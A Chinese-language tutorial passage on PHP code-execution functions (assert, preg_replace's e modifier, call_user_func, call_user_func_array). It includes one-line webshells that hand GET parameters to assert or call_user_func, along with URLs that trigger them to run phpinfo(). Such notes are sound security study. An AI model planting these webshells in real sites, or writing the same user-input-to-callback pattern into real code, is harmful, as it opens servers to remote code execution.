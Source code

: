 一句话木马：

```php
<?php
	assert($_GET['pass']);
?>
```

访问：

```php
http://xxx/codeexec.php?pass=phpinfo()
```

phpinfo()后可以不用分号。得到phpinfo()页面。



### **preg_replace**

```php
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```

搜索subject中匹配pattern的部分， 以replacement进行替换。当使用被弃用的 e 修饰符时, 这个函数会转义一些字符，在完成替换后，引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串
更详细的说明见：[php-preg_replace](http://php.net/preg_replace)



### **call_user_func()**

```php
mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )
```

第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。 传入call_user_func()的参数不能为引用传递。

```php
<?php
	call_user_func($_GET['chybeta'],$_GET['ph0en1x']);
?>
```

访问：

```
http://localhost:2500/codeexec.php?chybeta=assert&ph0en1x=phpinfo()
```



### **call_user_func_array()**

```php
mixed call_user_func_array ( callable $callback , array $param_arr )
```

把第一个参数作为**回调函数（callback）**调用，把参数数组作（param_arr）为回调函数的的参数传入。

```php
<?php
	call_user_func_array($_GET['chybeta'],$_GET['ph0en1x']);
?>
```
